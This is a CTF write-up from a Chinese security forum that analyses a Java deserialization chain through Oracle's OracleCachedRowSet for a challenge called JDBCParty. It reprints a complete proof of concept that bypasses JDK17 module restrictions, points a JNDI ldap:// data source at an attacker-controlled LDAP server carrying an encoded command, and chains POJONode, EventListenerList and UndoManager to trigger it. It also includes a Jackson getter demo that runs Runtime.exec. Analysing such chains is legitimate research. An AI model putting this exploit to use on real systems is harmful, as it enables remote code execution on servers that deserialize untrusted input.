


# 通过JDBCparty 对 oracle 利用链分析-先知社区

> **来源**: https://xz.aliyun.com/news/16653  
> **文章ID**: 16653

---

# 通过JDBCparty 对 oracle 利用链分析

## 前言

前些日子打了一个软件攻防赛，其中有一个 java 题，我记得结束的时候都是 0 解来着，因为官方也没有给 wp，所以就一直没有去解决，有一天看到 n1ght 师傅发了 poc，于是又去研究了一下，文章主要对题目是思路分析，我比较好奇的是 oracle 是如何利用的

## 题目思路

首先观察了一下 pom.xml

```
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <parent>
        <groupId>org.springframework.boot</groupId>

        <artifactId>spring-boot-starter-parent</artifactId>

        <version>3.3.5</version>

        <relativePath/>
        <!--  lookup parent from repository  -->
    </parent>

    <groupId>com.example</groupId>

    <artifactId>JDBCParty</artifactId>

    <version>0.0.1-SNAPSHOT</version>

    <name>JDBCParty</name>

    <description>JDBCParty</description>

    <properties>
        <java.version>17</java.version>

        <tomcat.version>10.1.31</tomcat.version>

    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-starter-web</artifactId>

        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-starter-thymeleaf</artifactId>

        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>

            <artifactId>spring-boot-starter-test</artifactId>

            <scope>test</scope>

        </dependency>

        <!--  https://mvnrepository.com/artifact/com.oracle.database.jdbc/ojdbc11  -->
        <dependency>
            <groupId>com.oracle.database.jdbc</groupId>

            <artifactId>ojdbc11</artifactId>

            <version>21.14.0.0</version>

        </dependency>

        <dependency>
            <groupId>org.apache.tomcat</groupId>

            <artifactId>tomcat-jdbc</artifactId>

            <version>${tomcat.version}</version>

        </dependency>

        <dependency>
            <groupId>org.apache.xmlgraphics</groupId>

            <artifactId>batik-swing</artifactId>

            <version>1.14</version>

        </dependency>

        <dependency>
            <groupId>com.alibaba.fastjson2</groupId>

            <artifactId>fastjson2</artifactId>

            <version>2.0.37</version>

        </dependency>

        <!--  https://mvnrepository.com/artifact/org.javassist/javassist  -->
        <!--         <dependency> -->
        <!--             <groupId>org.javassist</groupId> -->
        <!--             <artifactId>javassist</artifactId> -->
        <!--             <version>3.30.2-GA</version> -->
        <!--         </dependency> -->
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>

                <artifactId>spring-boot-maven-plugin</artifactId>

            </plugin>

        </plugins>

    </build>

</project>

```

对大概有个了解  
然后还有一些可能利用的依赖  


这里没有截完

然后就是题目代码了

```
package com.example.jdbcparty.controller;

import com.example.jdbcparty.Utils;
import com.example.jdbcparty.model.User;
import java.sql.Connection;
import java.sql.DriverManager;
import org.springframework.beans.factory.annotation.Value;
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;

@Controller
/* loaded from: DBController.class */
public class DBController {

    @Value("${spring.datasource.url}")
    private String url;

    @Value("${spring.datasource.driver}")
    private String driverClassName;

    @GetMapping({"/"})
    public String index() {
        return "index";
    }

    @PostMapping({"/dbtest"})
    public ResponseEntity<String> dbtest(String data) {
        try {
            User credentials = (User) Utils.deserialize(data);
            Class.forName(this.driverClassName);
            Connection connection = DriverManager.getConnection(this.url, credentials.getUsername(), credentials.getPassword());
            try {
                if (connection.isValid(5)) {
                    ResponseEntity<String> ok = ResponseEntity.ok("connect success");
                    if (connection != null) {
                        connection.close();
                    }
                    return ok;
                }
                ResponseEntity<String> body = ResponseEntity.status(HttpStatus.INTERNAL_SERVER_ERROR).body("connect failed");
                if (connection != null) {
                    connection.close();
                }
                return body;
            } finally {
            }
        } catch (Exception e) {
            e.printStackTrace();
            return ResponseEntity.status(HttpStatus.INTERNAL_SERVER_ERROR).body("connect failed " + e.getMessage());
        }
    }
}

```

一开始考虑过反序列化的地方，直接在 deserialize 的时候就触发漏洞

但是当时看题目名称，又是 JDBC，所以觉得应该是控制我们的连接参数去触发漏洞的，但是网上找了半天，都没有相关的资料，以为需要自己去挖掘，最后就放弃了，但是题目其实就是在 deserialize 的时候触发漏洞的

这里我们看到 n1ght师傅的 poc

```

import com.fasterxml.jackson.databind.node.POJONode;
import oracle.jdbc.rowset.OracleCachedRowSet;
import sun.misc.Unsafe;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Vector;

public class OracleSink {
    public static void main(String[] args) throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field field = unsafeClass.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Module baseModule = Object.class.getModule();
        Class currentClass = OracleSink.class;
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass, addr, baseModule);
        Class.forName("oracle.jdbc.OracleDriver");
        // sink
        oracle.jdbc.rowset.OracleCachedRowSet oracleCachedRowSet = (OracleCachedRowSet) UnSafeTools.newClass(Class.forName("oracle.jdbc.rowset.OracleCachedRowSet"));
        oracleCachedRowSet.setDataSourceName("ldap://127.0.0.1/zETKBsNKJk/Plain/Exec/eyJjbWQiOiJjYWxjIn0=");

        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("monitorLock"),null);
        Vector aaa= new Vector<>();
        aaa.add(0);
        Vector bbb= new Vector<>();
        bbb.add("TEST");
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnIndexes"),aaa);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnNames"),bbb);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("metaData"),new String[]{"TEST"});
        POJONode pojoNode = new POJONode(oracleCachedRowSet);
        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(pojoNode);

        setFieldValue(list2, "listenerList", new Object[]{InternalError.class, manager});
        ByteArrayOutputStream bao = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(bao);
        objectOutputStream.writeObject(list2);
        System.out.println(Base64.getEncoder().encodeToString(bao.toByteArray()));
        ByteArrayInputStream bin = new ByteArrayInputStream(bao.toByteArray());
        new ObjectInputStream(bin).readObject();
    }
    public static void setFieldValue(Object o,String field,Object value) throws NoSuchFieldException, IllegalAccessException {
        try {
            Field declaredField = o.getClass().getDeclaredField(field);
            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }catch (Exception e){
            Field declaredField = o.getClass().getSuperclass().getDeclaredField(field);

            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }

    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

}
```

可以看到是利用其打的 JNDI，而且是高版本的 JNDI，因为题目环境是 JDK17，具体的如何打高版本的 JNDI ，jdk17 如何绕过反射限制，网上其实有很多了，我这里主要是想了解一下 oracle 的利用链，其他多余的我就不看了

## SINK 点分析

我们通过一个代码,来简单看看

```
import com.fasterxml.jackson.databind.node.POJONode;
import oracle.jdbc.rowset.OracleCachedRowSet;

import java.lang.reflect.Field;
import java.sql.SQLException;

public class Test {
    public static void main(String[] args) throws SQLException, NoSuchFieldException, IllegalAccessException {
        oracle.jdbc.rowset.OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
        oracleCachedRowSet.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==");
        oracleCachedRowSet.getConnection();
    }

    public static void setFieldValue(Object o,String field,Object value) throws NoSuchFieldException, IllegalAccessException {
        try {
            Field declaredField = o.getClass().getDeclaredField(field);
            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }catch (Exception e){
            Field declaredField = o.getClass().getSuperclass().getDeclaredField(field);

            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }

    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

}


```

运行  


弹出计算器

我们来分析分析这个 sink 点

估计是 getConnection 方法触发的

```
public Connection getConnection() throws SQLException {
    return this.getConnectionInternal();
}
```

跟进 getConnectionInternal 方法

```
Connection getConnectionInternal() throws SQLException {
    if (this.connection == null || this.connection.isClosed()) {
        String var1 = this.getUsername();
        String var2 = this.getPassword();
        if (this.getDataSourceName() != null) {
            try {
                InitialContext var3 = null;

                try {
                    Properties var4 = System.getProperties();
                    var3 = new InitialContext(var4);
                } catch (SecurityException var5) {
                }

                if (var3 == null) {
                    var3 = new InitialContext();
                }

                DataSource var7 = (DataSource)var3.lookup(this.getDataSourceName());
                if (this.username != null && var2 != null) {
                    this.connection = var7.getConnection(this.username, var2);
                } else {
                    this.connection = var7.getConnection();
                }
            } catch (NamingException var6) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(300, var6.getMessage()).fillInStackTrace());
            }
        } else {
            if (this.getUrl() == null) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(301).fillInStackTrace());
            }

            if (!this.driverManagerInitialized) {
                DriverManager.registerDriver(new OracleDriver());
                this.driverManagerInitialized = true;
            }

            String var8 = this.getUrl();
            if (var8.equals("") || var1 == null || var1.equals("") || var2 == null || var2.equals("")) {
                throw (SQLException)((SQLException)DatabaseError.createSqlException(301).fillInStackTrace());
            }

            this.connection = DriverManager.getConnection(var8, var1, var2);
        }
    }

    return this.connection;
}
```

就很朴实无华


这样成功的触发了漏洞

## 如何触发 sink 点

### jackson

触发 sink 点的关键其实就是在于调用 getter 方法，那这样其实触发的方法就很多很多了，比如 n1ght 师傅的 poc

```

import com.fasterxml.jackson.databind.node.POJONode;
import oracle.jdbc.rowset.OracleCachedRowSet;
import sun.misc.Unsafe;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Vector;

public class OracleSink {
    public static void main(String[] args) throws Exception {
        Class unsafeClass = Class.forName("sun.misc.Unsafe");
        Field field = unsafeClass.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        Module baseModule = Object.class.getModule();
        Class currentClass = OracleSink.class;
        long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        unsafe.getAndSetObject(currentClass, addr, baseModule);
        Class.forName("oracle.jdbc.OracleDriver");
        // sink
        oracle.jdbc.rowset.OracleCachedRowSet oracleCachedRowSet = (OracleCachedRowSet) UnSafeTools.newClass(Class.forName("oracle.jdbc.rowset.OracleCachedRowSet"));
        oracleCachedRowSet.setDataSourceName("ldap://127.0.0.1/zETKBsNKJk/Plain/Exec/eyJjbWQiOiJjYWxjIn0=");

        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("monitorLock"),null);
        Vector aaa= new Vector<>();
        aaa.add(0);
        Vector bbb= new Vector<>();
        bbb.add("TEST");
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnIndexes"),aaa);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getSuperclass().getDeclaredField("matchColumnNames"),bbb);
        UnSafeTools.setObject(oracleCachedRowSet,oracleCachedRowSet.getClass().getDeclaredField("metaData"),new String[]{"TEST"});
        POJONode pojoNode = new POJONode(oracleCachedRowSet);
        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(pojoNode);

        setFieldValue(list2, "listenerList", new Object[]{InternalError.class, manager});
        ByteArrayOutputStream bao = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(bao);
        objectOutputStream.writeObject(list2);
        System.out.println(Base64.getEncoder().encodeToString(bao.toByteArray()));
        ByteArrayInputStream bin = new ByteArrayInputStream(bao.toByteArray());
        new ObjectInputStream(bin).readObject();
    }
    public static void setFieldValue(Object o,String field,Object value) throws NoSuchFieldException, IllegalAccessException {
        try {
            Field declaredField = o.getClass().getDeclaredField(field);
            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }catch (Exception e){
            Field declaredField = o.getClass().getSuperclass().getDeclaredField(field);

            declaredField.setAccessible(true);
            declaredField.set(o,value);
        }

    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

}
```

就是通过 EventListenerList 触发类的 tostirng 方法，而 POJONode 类的 tostring 方法又可以触发类的 getter 方法

```
import java.io.IOException;
import java.io.Serializable;

public class User implements Serializable {

    public User() {
    }

    public Object getName() throws IOException {
        Runtime.getRuntime().exec("calc");
        return "asdas";
    }

    public Object setName(String name) {
        System.out.println("setname");
        return "sadsad";
    }

}
```

```
import com.fasterxml.jackson.databind.node.POJONode;

public class Demo {
    public static void main(String[] args) {
        User user = new User();
        POJONode jsonNodes = new POJONode(user);
        jsonNodes.toString();
    }
}

```

运行如下代码就可以弹出计算器

参考<https://xz.aliyun.com/t/12509?time__1311=GqGxuCG%3DnDlr%3DiQGkQEhOK5DOITAYx>

POJONode 中不存在有 toString 方法的实现，在其父类 BaseJsonNode 中存在有，因其为一个抽象类，所以选择使用 POJONode 这个没有实现 toString 方法的类进行利用

`依次调用了toString -> InternalNodeMapper #nodeToString -> ObjectWriter.writeValueAsString方法

Bean对象序列化一个json串的使用常用的方法是writeValueAsString方法，并详细分析了，在调用该方法的过程中将会通过遍历的方法将bean对象中的所有的属性的getter方法进行调用

这里也是getter方法调用的成因

当然还有很多，比如 fastjson 的原生等都可以的
